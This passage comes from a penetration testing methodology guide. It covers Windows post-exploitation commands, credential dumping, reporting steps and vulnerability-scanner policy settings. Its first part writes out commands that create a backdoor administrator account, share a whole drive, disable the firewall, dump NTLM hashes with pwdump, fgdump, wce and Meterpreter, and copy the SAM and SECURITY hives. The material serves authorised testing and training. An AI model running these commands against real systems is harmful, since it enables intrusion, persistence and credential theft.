| align=left"\|Command                                                                          | Reason / Description                                                                                                                                                                                                                                                         |
+===============================================================================================+==============================================================================================================================================================================================================================================================================+
| ``net user hacker hacker /add``                                                               | Creats a new local (to the victim) user called ‘hacker’ with the password of ‘hacker’                                                                                                                                                                                        |
+-----------------------------------------------------------------------------------------------+------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------+
| ``net localgroup administrators /add hacker`` ``net localgroup administrators hacker /add``   | Adds the new user ‘hacker’ to the local administrators group                                                                                                                                                                                                                 |
+-----------------------------------------------------------------------------------------------+------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------+
| ``net share nothing$=C:\ /grant:hacker,FULL /unlimited``                                      | Shares the C drive (you can specify any drive) out as a Windows share and grants the user ‘hacker’ full rights to access, or modify anything on that drive.                                                                                                                  |
|                                                                                               |                                                                                                                                                                                                                                                                              |
|                                                                                               | One thing to note is that in newer (will have to look up exactly when, I believe since XP SP2) windows versions, share permissions and file permissions are separated. Since we added our selves as a local admin this isn’t a problem but it is something to keep in mind   |
+-----------------------------------------------------------------------------------------------+------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------+
| ``net user username /active:yes /domain``                                                     | Changes an inactive / disabled account to active. This can useful for re-enabling old domain admins to use, but still puts up a red flag if those accounts are being watched.                                                                                                |
+-----------------------------------------------------------------------------------------------+------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------+
| ``netsh firewall set opmode disable``                                                         | Disables the local windows firewall                                                                                                                                                                                                                                          |
+-----------------------------------------------------------------------------------------------+------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------+
| ``netsh firewall set opmode enable``                                                          | Enables the local windows firewall. If rules are not in place for your connection, this could cause you to loose it.                                                                                                                                                         |
+-----------------------------------------------------------------------------------------------+------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------+

Support Tools Binaries / Links / Usage
^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^

REMEMBER: DO NOT RUN BINARIES YOU HAVEN’T VETTED

+-----------------------------------------------------------------------------------------------------------------------------------------------+-----------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------+
| align=left"\|Description                                                                                                                      | Link to download                                                                                                                                                                                                |
+===============================================================================================================================================+=================================================================================================================================================================================================================+
| ``carrot.exe /im /ie /ff /gc /wlan /vnc /ps /np /mp /dialup /pwdump``                                                                         | http://h.ackack.net/carrot-exe.html                                                                                                                                                                             |
+-----------------------------------------------------------------------------------------------------------------------------------------------+-----------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------+
| ``PwDump7.exe > ntlm.txt``                                                                                                                    | http://www.tarasco.org/security/pwdump_7/ Invasively Dumps Windows NTLM hashes. Holds the credentials for all accounts.                                                                                         |
+-----------------------------------------------------------------------------------------------------------------------------------------------+-----------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------+
| Nircommands                                                                                                                                   | http://www.nirsoft.net/utils/nircmd.html A collection of small nifty features.                                                                                                                                  |
+-----------------------------------------------------------------------------------------------------------------------------------------------+-----------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------+
| ``wce.exe``                                                                                                                                   | http://www.ampliasecurity.com/research/wce_v1_2.tgz                                                                                                                                                             |
|                                                                                                                                               |                                                                                                                                                                                                                 |
|                                                                                                                                               | ``   Pull NTLM hashes from login sessions out of memory, steal ks tickets from activerberoe processes and apply them to others.``                                                                               |
+-----------------------------------------------------------------------------------------------------------------------------------------------+-----------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------+
| ``adfind.exe -b ou=ActiveDirectory,dc=example,dc=com -f "objectClass=user" sn givenName  samaccountname -nodn -adcsv > exported_users.csv``   | http://www.joeware.net/freetools/ Joeware tools have been used by admins for a while. This command will output the firstname, lastname and username of everyone in the AD domain example.com. Edit as needed.   |
+-----------------------------------------------------------------------------------------------------------------------------------------------+-----------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------+

Various tools
'''''''''''''

(e.g. \\\\hackarmoury.com\\tools\\all\_binaries\\fgdump.exe)

``   Some examples of protocols in use:``

http://hackarmoury.com/tools

\\\\hackarmoury.com\\tools

ftp://hackarmoury.com

svn://hackarmoury.com

Obtaining Password Hashes in Windows
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

There are two general methods for obtaining the password hashes in
Windows. One method is to inject code into the LSASS (Local Security
Authority Subsystem Service) process and the other is to extract the
hashes from the SAM, system, and security registry hives. Pwdump6,
Fgdump, and the hashdump command in Meterpreter use the LSASS injection
method and Creddump extracts passwords from the SAM, system, and
security hives. Once the hashes have been extracted, you can crack the
hashes to obtain the passwords or you can use the hashes in a pass the
hash exploit.

LSASS Injection
^^^^^^^^^^^^^^^

One of the pitfalls of using the LSASS injection method is the
possibility of crashing the LSASS process, which will reboot the
machine. Another pitfall is tools like Pwdump and Fgdump are often
stopped by AV tools.

Pwdump6 and Fgdump
''''''''''''''''''

Pwdump6 and Fgdump are available at http://www.foofus.net/~fizzgig.
Fgdump implements a number of features that Pwdump6 does not and is the
preferred tool to use. Also, the user account must be an administrator
on the target machine.

-  To dump passwords on the local host with the credential of the
   current user use: ``fgdump``
-  To dump passwords on the local host with other credentials use:
   ``fgdump -h 127.0.0.1 -u adminuser``
-  To dump passwords on a remote host with specified credentials use:
   ``fgdump -h 192.168.0.1 -u adminuser -p password``

Hashdump in Meterpreter
'''''''''''''''''''''''

From the meterpreter prompt run ``hashdump``.

::

    meterpreter > hashdump
    Guest:501:******NOPASSWORD*******:31d6cfe0d16ae931b73c59d7e0c089c0:::
    HelpAssistant:1000:******NOPASSWORD*******:ee96955033d6fa723cc2fccb7bec093d:::

Extracting Passwords from Registry
^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^

You will need to copy the SAM, system, and security files from the
target machine to your machine. The files are located in
C:\\WINDOWS\\system32\\config and are typically inaccessible while the
machine is running. Fortunately, you can get a copy of the files from
the registry in HKEY\_LOCAL\_MACHINE and some times you can find them in
c:\\WINDOWS\\repair.

Copy from the Registry
''''''''''''''''''''''

::

    reg save HKLM\SAM c:\sam.reg
    reg save HKLM\SYSTEM c:\system.reg
    reg save HKLM\SECURITY c:\security.reg

If you get an "Access Denied" error message when trying to save the
SECURITY hive then try:

::

    at 12:00 reg save HKLM\SECURITY c:\security.reg

You are using the at command to schedule the reg command so set the time
appropriately.

Extracting the Hashes
'''''''''''''''''''''

Creddump includes three python scripts designed to extract the local
password hashes (pwdump.py), the cached credentials (cachedump.py), and
the LSA secrets (lsadump.py). To get the local password hashes use:
``pwdump.py system.reg sam.reg``. To get the cached credentials use:
``cachedump.py system.reg security.reg``.

Extracting Passwords from Registry using Meterpreter
^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^

In Meterpreter use the command ``run post/windows/gather/hashdump`` to
get the local hashes from the SAM database. To get the cached hashes you
will need to download the cachedump.rb module from
http://lab.mediaservice.net/code/cachedump.rb and put it into
/modules/post/windows/gather. Then you can run the command
``run post/windows/gather/cachedump``.

Reporting
---------

<Contribution Needed>

Executive-Level Reporting
~~~~~~~~~~~~~~~~~~~~~~~~~

<Contribution Needed>

1. Business Impact

2. Customization

3. Talking to the business

4. Affect bottom line

5. Strategic Roadmap

6. Maturity model

7. Appendix with terms for risk rating

Technical Reporting
~~~~~~~~~~~~~~~~~~~

<Contribution Needed>

1. Identify systemic issues and technical root cause analysis

2. Maturity Model

3. Technical Findings

-  Description
-  Screen shots
-  Ensure all PII is correctly redacted
-  Request/Response captures
-  PoC examples
-  Ensure PoC code provides benign validation of the flaw

4. Reproducible Results

-  Test Cases
-  Fault triggers

5. Incident response and monitoring capabilities

-  Intelligence gathering
-  Reverse IDS
-  Pentest Metrics
-  Vuln. Analysis
-  Exploitation
-  Post-exploitation
-  Residual effects (notifications to
   3rd parties, internally, LE, etc...)

6. Common elements

-  Methodology
-  Objective(s)
-  Scope
-  Summary of findings
-  Appendix with terms for risk rating

Quantifying the risk
~~~~~~~~~~~~~~~~~~~~

<Contribution Needed>

1. Evaluate incident frequency

-  probable event frequency
-  estimate threat capability
   (from 3 - threat modeling)
-  Estimate controls strength (6)
-  Compound vulnerability (5)
-  Level of skill required
-  Level of access required

2. Estimate loss magnitude per incident

-  Primary loss
-  Secondary loss
-  Identify risk root cause analysis
-  Root Cause is never a patch
-  Identify Failed Processes

3. Derive Risk

-  Threat
-  Vulnerability
-  Overlap

Deliverable
~~~~~~~~~~~

<Contribution Needed>

1. Preliminary results

2. Review of the report with the customer

3. Adjustments to the report

4. Final report

5. Versioning of Draft and Final Reports

6. Presentation

-  Technical
-  Management Level

7. Workshop / Training

-  Gap Analysis (skills/training)

| 8. Exfiltarted evidence and any other raw (non-proprietary) data
| gathered.

9. Remediation Roadmap

-  Triage
-  Maturity Model
-  Progression Roadmap
-  Long-term Solutions
-  Defining constraints

Custom tools developed
----------------------

<Contribution Needed>

Appendix
---------

Appendix A - Creating OpenVAS "Only Safe Checks" Policy
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~


In order to ensure that all tests are conducted with the same criteria,
you will need to ensure that you have the correct OpenVAS Global
Settings. In order to do this you will need to connect to the OpenVAS
Server and modifiy the Global Settings. There are seven configuration
tabs: General, Credentials, Target Selection, Access Rules, Prefs., and
KB. For our purposes, most of the default settings do not need to be
modified.

General
^^^^^^^

The General tab is where we will set certain scan options. The actual
settings have been defined as indicated below:

+---------------------------------------------------+---------------------+
| \ **General Scan Options Section**\               | \ **Setting**\      |
+---------------------------------------------------+---------------------+
| Port Range                                        | 1-65535             |
+---------------------------------------------------+---------------------+
| Consider unscanned ports as closed                | Unchecked           |
+---------------------------------------------------+---------------------+
| Checks to perform concurrently                    | 4                   |
+---------------------------------------------------+---------------------+
| Path to CGIs                                      | /cgi-bin:/scripts   |
+---------------------------------------------------+---------------------+
| Do a reverse lookup of the IP before testing it   | Unchecked           |
+---------------------------------------------------+---------------------+
| Safe checks                                       | Checked             |
+---------------------------------------------------+---------------------+
| Designate hosts by their MAC address              | Unchecked           |
+---------------------------------------------------+---------------------+
|                                                   |                     |
+---------------------------------------------------+---------------------+
| \ **Port Scanner Section**\                       | \ **Setting**\      |
+---------------------------------------------------+---------------------+
| ike-scan (NASL wrapper)                           | Checked             |
+---------------------------------------------------+---------------------+
| Snmpwalk 'scanner'                                | Checked             |
+---------------------------------------------------+---------------------+
| SYN Scan                                          | Checked             |
+---------------------------------------------------+---------------------+
| Exclude toplevel domain wildcard hosts            | Unchecked           |
+---------------------------------------------------+---------------------+
| portbunny (NASL wrapper)                          | Unchecked           |
+---------------------------------------------------+---------------------+
| strobe (NASL wrapper)                             | Unchecked           |
+---------------------------------------------------+---------------------+
| Scan for LaBrea tarpitted hosts                   | Checked             |
+---------------------------------------------------+---------------------+
| amap (NASL wrapper)                               | Unchecked           |
+---------------------------------------------------+---------------------+
| pnscan (NASL wrapper)                             | Unchecked           |
+---------------------------------------------------+---------------------+
| Netstat 'scanner'                                 | Unchecked           |
+---------------------------------------------------+---------------------+
| Simple TCP portscan in NASL                       | Unchecked           |
+---------------------------------------------------+---------------------+
| OpenVAS TCP scanner                               | Checked             |
+---------------------------------------------------+---------------------+
| Ping Host                                         | Checked             |
+---------------------------------------------------+---------------------+
| Nmap (NASL wrapper)                               | Checked             |
+---------------------------------------------------+---------------------+

Plugins
^^^^^^^

The Plugins tab, allows us to choose specific security checks by plugin
family or individual checks that we want to enable. The easiest way to
set this is to select the "Enable All" button from the main Plugins tab,
however this assumes the Safe Checks is selected from the General Tab.

Credentials
^^^^^^^^^^^

The Credentials tab, allows us to configure the Nessus scanner to use
authentication credentials during scanning. For our policy we will not
edit any of the settings within this section. They are however
documented to ensure completeness.

+------------------------------------------+--------------------+
| \ **SMB Authorization**\                 | \ **Setting**\     |
+------------------------------------------+--------------------+
| SMB login                                | Blank              |
+------------------------------------------+--------------------+
| SMB password                             | Blank              |
+------------------------------------------+--------------------+
| SMB domain (optional)                    | Blank              |
+------------------------------------------+--------------------+
|                                          |                    |
+------------------------------------------+--------------------+
| '''SSH Authorization '''                 | \ **Setting**\     |
+------------------------------------------+--------------------+
| Per-host SSH key Selection (localhost)   | Select SSH Login   |
+------------------------------------------+--------------------+
| Per-host SSH key Selection (Default)     | Select SSH Login   |
+------------------------------------------+--------------------+
| User per-target login information        | Unchecked          |
+------------------------------------------+--------------------+
| SSH login name                           | sshovas            |
+------------------------------------------+--------------------+
| SSH password (unsafe!)                   | Blank              |
+------------------------------------------+--------------------+
| SSH public key                           | Blank              |
+------------------------------------------+--------------------+
| SSH private key                          | Blank              |
+------------------------------------------+--------------------+
| SSH key passphrase                       | Blank              |
+------------------------------------------+--------------------+

Target Selection
^^^^^^^^^^^^^^^^

The Target Selection tab, allows us to specify specific targets or to
read them from a file. The main then to ensure that is checked is the
Perform a DNS zone transfer.

Access Rules
^^^^^^^^^^^^

The Access Selection tab, allows us to view and manage the access rules
for our scanner. These rules determine which host you may scan. Note
that there are three kinds of access rules:

Server rules, Serverside user rules, and Clientside user rules. Server
rules are global to the server and will affect all users that connect to
this server. Serverside user rules are specific to a user and affect
only this user, no matter from which client he connects to this server.
Finally, Clientside user rules are specific to the client. They will
affect only the scope in which they are defined.

Preferences
^^^^^^^^^^^

The Preferences tab allows for more granular control over scan settings.
All items in this category should be left alone.

Knowledge Base
^^^^^^^^^^^^^^^

The configuration section for the Knowledge Base (KB) allows you to
control the management of the server-side scan results. Information
retrieved by plugins is collected in a KB during a scan. This is done on
a per-host basis, meaning there is one KB for every host scanned. The
default is to discard the KB once all plugins have finished, but under
certain circumstances it can be quite useful to tell the server to keep
the KBs generated during the scan and use them again at a later time.

Appendix B - Creating the "Only Safe Checks" Policy
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

In order to ensure that all tests are conducted with the same criteria,
you will need to ensure that you have created a policy called "Only Safe
Checks." In order to do this you will need to connect to the Nessus
server UI, so that you can create a custom policy by clicking on the
"Policies" option on the bar at the top and then "+ Add" button on the
right. The "Add Policy" screen will be displayed as follows:

''' `Screenshot Here <:File:Penetration_Testing_Execution_162.png>`__
'''

There are four configuration tabs: General, Credentials, Plugins, and
Preferences. For our purposes, most of the default settings do not need
to be modified.

General
^^^^^^^

The General tab is where we will name and configure scan options related
to our policy. There are six boxes of grouped options that control
scanner behavior: Basic, Scan, Network Congestion, Port Scanners, Port
Scan Options, and Performance.

Basic allows us to define the policy itself. The actual settings have
been defined as indicated below:

+------------------------------------------------+---------------------------------------------------+
| \ **Basic Section**\                           | \ **Setting**\                                    |
+------------------------------------------------+---------------------------------------------------+
| Name                                           | Only Safe Checks                                  |
+------------------------------------------------+---------------------------------------------------+
| Visibility                                     | Shared                                            |
+------------------------------------------------+---------------------------------------------------+
| Description                                    | Complete scans not including Denial of Service.   |
+------------------------------------------------+---------------------------------------------------+
| \ **Scan Section**\                            | \ **Setting**\                                    |
+------------------------------------------------+---------------------------------------------------+
| Save Knowledge Base                            | Checked                                           |
+------------------------------------------------+---------------------------------------------------+
| Safe Checks                                    | Checked                                           |
+------------------------------------------------+---------------------------------------------------+
| Silent Dependencies                            | Checked                                           |
+------------------------------------------------+---------------------------------------------------+
| Log Scan Details to Server                     | Unchecked                                         |
+------------------------------------------------+---------------------------------------------------+
| Stop Host Scan on Disconnect                   | Unchecked                                         |
+------------------------------------------------+---------------------------------------------------+
| Avoid Sequential Scans                         | Unchecked                                         |
+------------------------------------------------+---------------------------------------------------+
| Consider Unscanned Ports as Closed             | Unchecked                                         |
+------------------------------------------------+---------------------------------------------------+
| Designate Hosts by their DNS Name              | Unchecked                                         |
+------------------------------------------------+---------------------------------------------------+
|                                                |                                                   |
+------------------------------------------------+---------------------------------------------------+
| \ **Network Section**\                         | \ **Setting**\                                    |
+------------------------------------------------+---------------------------------------------------+
| Reduce Parallel Connections on Congestion      | Unchecked                                         |
+------------------------------------------------+---------------------------------------------------+
| Use Kernel Congestion Detection (Linux Only)   | Unchecked                                         |
+------------------------------------------------+---------------------------------------------------+
|                                                |                                                   |
+------------------------------------------------+---------------------------------------------------+
| \ **Port Scanners Section**\                   | \ **Setting**\                                    |
+------------------------------------------------+---------------------------------------------------+
| TCP Scan                                       | Checked                                           |
+------------------------------------------------+---------------------------------------------------+
| UDP Scan                                       | Unchecked                                         |
+------------------------------------------------+---------------------------------------------------+
| SYN Scan                                       | Unchecked                                         |
+------------------------------------------------+---------------------------------------------------+
| SNMP Scan                                      | Checked                                           |
+------------------------------------------------+---------------------------------------------------+
| Netstat SSH Scan                               | Checked                                           |
+------------------------------------------------+---------------------------------------------------+
| Netstat WMI Scan                               | Checked                                           |
+------------------------------------------------+---------------------------------------------------+
| Ping Host                                      | Unchecked                                         |
+------------------------------------------------+---------------------------------------------------+
|                                                |                                                   |
+------------------------------------------------+---------------------------------------------------+
| \ **Port Scan Options Section**\               | \ **Setting**\                                    |
+------------------------------------------------+---------------------------------------------------+
| Port Scan Range                                | 1-65535                                           |
+------------------------------------------------+---------------------------------------------------+
| \ **Performance Section**\                     | \ **Setting**\                                    |
+------------------------------------------------+---------------------------------------------------+
| Max Checks Per Host (Windows)                  | 5                                                 |
+------------------------------------------------+---------------------------------------------------+
| Max Checks Per Host (Linux)                    | 50-75                                             |
+------------------------------------------------+---------------------------------------------------+
| Max Hosts Per Scan                             | 5                                                 |
+------------------------------------------------+---------------------------------------------------+
| Network Receive Timeout (seconds)              | 5                                                 |
+------------------------------------------------+---------------------------------------------------+
| Max Simultaneous TCP Sessions Per Host         | Unlimited                                         |
+------------------------------------------------+---------------------------------------------------+
| Max Simultaneous TCP Sessions Per Scan         | Unlimited                                         |
+------------------------------------------------+---------------------------------------------------+

Credentials
^^^^^^^^^^^

The Credentials tab, allows us to configure the Nessus scanner to use
authentication credentials during scanning. For our policy we will not
edit any of the settings within this section. They are however
documented to ensure completeness.

+-------------------------------------------------+--------------------+
| \ **Windows credentials**\                      | \ **Setting**\     |
+-------------------------------------------------+--------------------+
| SMB account                                     | Blank              |
+-------------------------------------------------+--------------------+
| SMB password                                    | Blank              |
+-------------------------------------------------+--------------------+
| SMB domain (optional)                           | Blank              |
+-------------------------------------------------+--------------------+
| SMB password type                               | Password           |
+-------------------------------------------------+--------------------+
| Additional SMB account (1)                      | Blank              |
+-------------------------------------------------+--------------------+
| Additional SMB password (1)                     | Blank              |
+-------------------------------------------------+--------------------+
| Additional SMB domain (optional)(1)             | Blank              |
+-------------------------------------------------+--------------------+
| Additional SMB account (2)                      | Blank              |
+-------------------------------------------------+--------------------+
| Additional SMB password (2)                     | Blank              |
+-------------------------------------------------+--------------------+
| Additional SMB domain (optional)(2)             | Blank              |
+-------------------------------------------------+--------------------+
| Additional SMB account (3)                      | Blank              |
+-------------------------------------------------+--------------------+
| Additional SMB password (3)                     | Blank              |
+-------------------------------------------------+--------------------+
| Additional SMB domain (optional)(3)             | Blank              |
+-------------------------------------------------+--------------------+
| Never send SMB credentials in clear text        | Checked            |
+-------------------------------------------------+--------------------+
| Only use NTLMv2                                 | Unchecked          |
+-------------------------------------------------+--------------------+
|                                                 |                    |
+-------------------------------------------------+--------------------+
| '''SSH Settings '''                             | \ **Setting**\     |
+-------------------------------------------------+--------------------+
| SSH user name                                   | root               |
+-------------------------------------------------+--------------------+
| SSH password (unsafe!)                          | Blank              |
+-------------------------------------------------+--------------------+
| SSH public key to use                           | Blank              |
+-------------------------------------------------+--------------------+
| SSH private key to use                          | Blank              |
+-------------------------------------------------+--------------------+
| Passphrase for SSH key                          | Blank              |
+-------------------------------------------------+--------------------+
| Elevate privileges with                         | Nothing            |
+-------------------------------------------------+--------------------+
| su login                                        | Blank              |
+-------------------------------------------------+--------------------+
| Escalation password                             | Blank              |
+-------------------------------------------------+--------------------+
| SSH known hosts file                            | Blank              |
+-------------------------------------------------+--------------------+
| Preferred SSH port                              | 22                 |
+-------------------------------------------------+--------------------+
| Client version                                  | OpenSSH\_5.0       |
+-------------------------------------------------+--------------------+
|                                                 |                    |
+-------------------------------------------------+--------------------+
| \ **Kerberos configuration**\                   | \ **Settings**\    |
+-------------------------------------------------+--------------------+
| Kerberos Key Distribution Center (KDC)          | Blank              |
+-------------------------------------------------+--------------------+
| Kerberos KDC Port                               | 88                 |
+-------------------------------------------------+--------------------+
| Kerberos KDC Transport                          | UDP                |
+-------------------------------------------------+--------------------+
| Kerberos Realm (SSH only)                       | Blank              |
+-------------------------------------------------+--------------------+
|                                                 |                    |
+-------------------------------------------------+--------------------+
| \ **Cleartext protocols settings**\             | \ **Settings**\    |
+-------------------------------------------------+--------------------+
| User name                                       | Blank              |
+-------------------------------------------------+--------------------+
| Password (unsafe!)                              | Blank              |
+-------------------------------------------------+--------------------+
| Try to perform patch level checks over telnet   | Unchecked          |
+-------------------------------------------------+--------------------+
| Try to perform patch level checks over rsh      | Unchecked          |
+-------------------------------------------------+--------------------+
| Try to perform patch level checks over rexec    | Unchecked          |
+-------------------------------------------------+--------------------+

Plugins
^^^^^^^

The Plugins tab, allows us to choose specific security checks by plugin
family or individual checks that we want to enable. The easiest way to
set this is to select the "Enable All" button from the main Plugins tab,
however this assumes the Safe Checks is selected from the General Tab.

Preferences
^^^^^^^^^^^

The Preferences tab allows for more granular control over scan settings.
All items in this category should be. The actual settings have been
defined as indicated below:

+--------------------------------------------------------------------+-------------------------------------------------------------------+
| \ **Cisco IOS Compliance Checks**\                                 | \ **Setting**\                                                    |
+--------------------------------------------------------------------+-------------------------------------------------------------------+
| Policy file #1                                                     | Blank                                                             |
+--------------------------------------------------------------------+-------------------------------------------------------------------+
| Policy file #2                                                     | Blank                                                             |
+--------------------------------------------------------------------+-------------------------------------------------------------------+
| Policy file #3                                                     | Blank                                                             |
+--------------------------------------------------------------------+-------------------------------------------------------------------+
| Policy file #4                                                     | Blank                                                             |
+--------------------------------------------------------------------+-------------------------------------------------------------------+
| Policy file #5                                                     | Blank                                                             |
+--------------------------------------------------------------------+-------------------------------------------------------------------+
|                                                                    |                                                                   |
+--------------------------------------------------------------------+-------------------------------------------------------------------+
| '''Database Compliance Checks '''                                  | \ **Setting**\                                                    |
+--------------------------------------------------------------------+-------------------------------------------------------------------+
| Policy file #1                                                     | Blank                                                             |
+--------------------------------------------------------------------+-------------------------------------------------------------------+
| Policy file #2                                                     | Blank                                                             |
+--------------------------------------------------------------------+-------------------------------------------------------------------+
| Policy file #3                                                     | Blank                                                             |
+--------------------------------------------------------------------+-------------------------------------------------------------------+
| Policy file #4                                                     | Blank                                                             |
+--------------------------------------------------------------------+-------------------------------------------------------------------+
| Policy file #5                                                     | Blank                                                             |
+--------------------------------------------------------------------+-------------------------------------------------------------------+
|                                                                    |                                                                   |
+--------------------------------------------------------------------+-------------------------------------------------------------------+
| '''Database Settings '''                                           | \ **Setting**\                                                    |
+--------------------------------------------------------------------+-------------------------------------------------------------------+
| Login                                                              | Blank                                                             |
+--------------------------------------------------------------------+-------------------------------------------------------------------+
| Password                                                           | Blank                                                             |
+--------------------------------------------------------------------+-------------------------------------------------------------------+
| DB Type                                                            | Oracle                                                            |
+--------------------------------------------------------------------+-------------------------------------------------------------------+
| Database SID                                                       | Blank                                                             |
+--------------------------------------------------------------------+-------------------------------------------------------------------+
| Database port to use                                               | Blank                                                             |
+--------------------------------------------------------------------+-------------------------------------------------------------------+
| Oracle auth type                                                   | NORMAL                                                            |
+--------------------------------------------------------------------+-------------------------------------------------------------------+
| SQL Server auth type                                               | Windows                                                           |
+--------------------------------------------------------------------+-------------------------------------------------------------------+
|                                                                    |                                                                   |
+--------------------------------------------------------------------+-------------------------------------------------------------------+
| \ **Do not scan fragile devices**\                                 | \ **Setting**\                                                    |
+--------------------------------------------------------------------+-------------------------------------------------------------------+
| Scan Network Printers                                              | Unchecked                                                         |
+--------------------------------------------------------------------+-------------------------------------------------------------------+
| Scan Novell Netware hosts                                          | Unchecked                                                         |
+--------------------------------------------------------------------+-------------------------------------------------------------------+
|                                                                    |                                                                   |
+--------------------------------------------------------------------+-------------------------------------------------------------------+
| \ **Global variable settings**\                                    | \ **Setting**\                                                    |
+--------------------------------------------------------------------+-------------------------------------------------------------------+
| Probe services on every port                                       | Checked                                                           |
+--------------------------------------------------------------------+-------------------------------------------------------------------+
| | Do not log in with user accounts not                             | Unchecked                                                         |
| | specified in the policy                                          |                                                                   |
+--------------------------------------------------------------------+-------------------------------------------------------------------+
| Enable CGI scanning                                                | Checked                                                           |
+--------------------------------------------------------------------+-------------------------------------------------------------------+
| Network type                                                       | Mixed (use RFC 1918)                                              |
+--------------------------------------------------------------------+-------------------------------------------------------------------+
| Enable experimental scripts                                        | Unchecked                                                         |
+--------------------------------------------------------------------+-------------------------------------------------------------------+
| Thorough tests (slow)                                              | Unchecked                                                         |
+--------------------------------------------------------------------+-------------------------------------------------------------------+
| Report verbosity                                                   | Normal                                                            |
+--------------------------------------------------------------------+-------------------------------------------------------------------+
| Report paranoia                                                    | Normal                                                            |
+--------------------------------------------------------------------+-------------------------------------------------------------------+
| HTTP User-Agent                                                    | Mozilla/4.0 (compatible; MSIE 8.0; Windows NT 5.1; Trident/4.0)   |
+--------------------------------------------------------------------+-------------------------------------------------------------------+
| SSL certificate to use                                             | Blank                                                             |
+--------------------------------------------------------------------+-------------------------------------------------------------------+
| SSL CA to trust                                                    | Blank                                                             |
+--------------------------------------------------------------------+-------------------------------------------------------------------+
| SSL key to use                                                     | Blank                                                             |
+--------------------------------------------------------------------+-------------------------------------------------------------------+
| SSL password for SSL key                                           | Blank                                                             |
+--------------------------------------------------------------------+-------------------------------------------------------------------+
|                                                                    |                                                                   |
+--------------------------------------------------------------------+-------------------------------------------------------------------+
| \ **HTTP cookies import**\                                         | \ **Settings**\                                                   |
+--------------------------------------------------------------------+-------------------------------------------------------------------+
| Cookies file                                                       | Blank                                                             |
+--------------------------------------------------------------------+-------------------------------------------------------------------+
|                                                                    |                                                                   |
+--------------------------------------------------------------------+-------------------------------------------------------------------+
| \ **HTTP login page**\                                             | \ **Settings**\                                                   |
+--------------------------------------------------------------------+-------------------------------------------------------------------+
| Login page                                                         | /                                                                 |
+--------------------------------------------------------------------+-------------------------------------------------------------------+
| Login form                                                         | Blank                                                             |
+--------------------------------------------------------------------+-------------------------------------------------------------------+
| Login form fields                                                  | user=%USER%&password=%PASS%                                       |
+--------------------------------------------------------------------+-------------------------------------------------------------------+
| Login form method                                                  | POST                                                              |
+--------------------------------------------------------------------+-------------------------------------------------------------------+
| Re-authenticate delay (seconds)                                    | Blank                                                             |
+--------------------------------------------------------------------+-------------------------------------------------------------------+
| Check authentication on page                                       | Blank                                                             |
+--------------------------------------------------------------------+-------------------------------------------------------------------+
| Follow 30x redirections (# of levels)                              | 2                                                                 |
+--------------------------------------------------------------------+-------------------------------------------------------------------+
| Authenticated regex                                                | Blank                                                             |
+--------------------------------------------------------------------+-------------------------------------------------------------------+
| Invert test (disconnected if regex matches)                        | Unchecked                                                         |
+--------------------------------------------------------------------+-------------------------------------------------------------------+
| Match regex on HTTP headers                                        | Unchecked                                                         |
+--------------------------------------------------------------------+-------------------------------------------------------------------+
| Case insensitive regex                                             | Unchecked                                                         |
+--------------------------------------------------------------------+-------------------------------------------------------------------+
|                                                                    |                                                                   |
+--------------------------------------------------------------------+-------------------------------------------------------------------+
| \ **ICCP/COTP TSAP Addressing**\                                   | \ **Settings**\                                                   |
+--------------------------------------------------------------------+-------------------------------------------------------------------+
| Start COTP TSAP                                                    | 8                                                                 |
+--------------------------------------------------------------------+-------------------------------------------------------------------+
| Stop COTP TSAP                                                     | 8                                                                 |
+--------------------------------------------------------------------+-------------------------------------------------------------------+
|                                                                    |                                                                   |
+--------------------------------------------------------------------+-------------------------------------------------------------------+
| \ **Login configurations**\                                        | \ **Settings**\                                                   |
+--------------------------------------------------------------------+-------------------------------------------------------------------+
| HTTP account                                                       | Blank                                                             |
+--------------------------------------------------------------------+-------------------------------------------------------------------+
| HTTP password (sent in clear)                                      | Blank                                                             |
+--------------------------------------------------------------------+-------------------------------------------------------------------+
| NNTP account                                                       | Blank                                                             |
+--------------------------------------------------------------------+-------------------------------------------------------------------+
| NNTP password (sent in clear)                                      | Blank                                                             |
+--------------------------------------------------------------------+-------------------------------------------------------------------+
| FTP account                                                        | Anonymous                                                         |
+--------------------------------------------------------------------+-------------------------------------------------------------------+
| FTP password (sent in clear)                                       |                                                                   |
+--------------------------------------------------------------------+-------------------------------------------------------------------+
| FTP writeable directory                                            | /incoming                                                         |
+--------------------------------------------------------------------+-------------------------------------------------------------------+
| POP2 account                                                       | Blank                                                             |
+--------------------------------------------------------------------+-------------------------------------------------------------------+
| POP2 password (sent in clear)                                      | Blank                                                             |
+--------------------------------------------------------------------+-------------------------------------------------------------------+
| POP3 account                                                       | Blank                                                             |
+--------------------------------------------------------------------+-------------------------------------------------------------------+
| POP3 password (sent in clear)                                      | Blank                                                             |
+--------------------------------------------------------------------+-------------------------------------------------------------------+
| IMAP account                                                       | Blank                                                             |
+--------------------------------------------------------------------+-------------------------------------------------------------------+
| IMAP password (sent in clear)                                      | Blank                                                             |
+--------------------------------------------------------------------+-------------------------------------------------------------------+
|                                                                    |                                                                   |
+--------------------------------------------------------------------+-------------------------------------------------------------------+
| \ **Modbus/TCP Coil Access**\                                      | \ **Settings**\                                                   |
+--------------------------------------------------------------------+-------------------------------------------------------------------+
| Start reg                                                          | 0                                                                 |
+--------------------------------------------------------------------+-------------------------------------------------------------------+
| End reg                                                            | 16                                                                |
